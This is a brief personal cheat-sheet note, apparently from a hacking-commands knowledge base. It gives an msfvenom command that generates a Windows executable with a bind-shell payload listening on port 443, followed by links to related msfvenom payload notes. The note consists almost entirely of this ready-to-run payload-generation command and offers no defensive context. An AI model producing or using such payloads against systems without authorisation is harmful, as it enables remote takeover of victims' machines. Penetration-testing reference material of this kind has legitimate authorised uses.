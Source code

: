 # MSFVENOM Windows Binary (.exe) executable 32 Bit (x86) Bind Shell
```bash
msfvenom -p windows/shell_bind_tcp LPORT=443 -f exe -o bind_shell.exe
```

# References
- [20221003150775](/zet/20221003150775/) MSFVENOM Windows Binary (.exe) executable 32 Bit (x86)
- [20221003150772](/zet/20221003150772/) MSFVENOM Windows Binary (.exe) executable 32 Bit (x86) Bind Shell Output in Hex, C Style, Exclude bad chars, Exitfunction thread
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted

